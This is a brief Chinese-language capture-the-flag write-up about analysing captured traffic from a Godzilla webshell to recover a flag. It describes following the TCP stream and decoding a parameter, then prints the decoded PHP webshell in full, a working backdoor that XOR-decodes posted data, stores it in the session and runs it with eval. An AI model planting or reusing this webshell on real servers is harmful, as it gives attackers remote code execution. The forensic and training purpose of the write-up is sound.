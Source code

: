 这是哥斯拉websehll流量的抓包
目的是拿到flag
![image](https://github.com/user-attachments/assets/7a9a520c-89a6-411a-889d-d6b74675ceec)
选择追踪流
将pass解出来
  @session_start();
  @set_time_limit(0);
  @error_reporting(0);
  function encode($D,$K){
      for($i=0;$i<strlen($D);$i++) {
          $c = $K[$i+1&15];
          $D[$i] = $D[$i]^$c;
      }
      return $D;
  }
  $pass='key';
  $payloadName='payload';
  $key='3c6e0b8a9c15224a';
  if (isset($_POST[$pass])){
      $data=encode(base64_decode($_POST[$pass]),$key);
      if (isset($_SESSION[$payloadName])){
          $payload=encode($_SESSION[$payloadName],$key);
          if (strpos($payload,"getBasicsInfo")===false){
              $payload=encode($payload,$key);
          }
                  eval($payload);
          echo substr(md5($pass.$key),0,16);
          echo base64_encode(encode(@run($data),$key));
          echo substr(md5($pass.$key),16);
      }else{
          if (strpos($data,"getBasicsInfo")!==false){
              $_SESSION[$payloadName]=encode($data,$key);
          }
      }
  }
